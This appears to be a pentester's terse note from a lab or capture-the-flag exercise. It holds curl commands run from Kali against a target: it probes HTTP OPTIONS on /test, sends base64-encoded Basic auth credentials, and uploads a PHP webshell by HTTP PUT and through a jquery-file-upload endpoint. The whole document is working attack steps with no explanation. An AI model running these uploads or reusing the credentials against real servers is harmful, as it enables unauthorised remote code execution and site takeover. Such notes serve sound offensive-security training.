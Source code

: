 ```bash - kali
curl -v -X OPTIONS http://$TARGET/test
```

```bash - kali
curl -v -X OPTIONS http://$TARGET/test -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```

![[0._PHP_Webshells#wwolf]]

```bash - kali
curl --upload-file webshell.php -v --url http://$TARGET/test/webshell.php -0 --http1.0 -H "Authorization: Basic YWRtaW5pc3RyYW50OnNsZWVwbGVzcw=="
```

```bash - kali
curl -F "files=@webshell.php" http://$TARGET/jquery-file-upload/server/php/
```

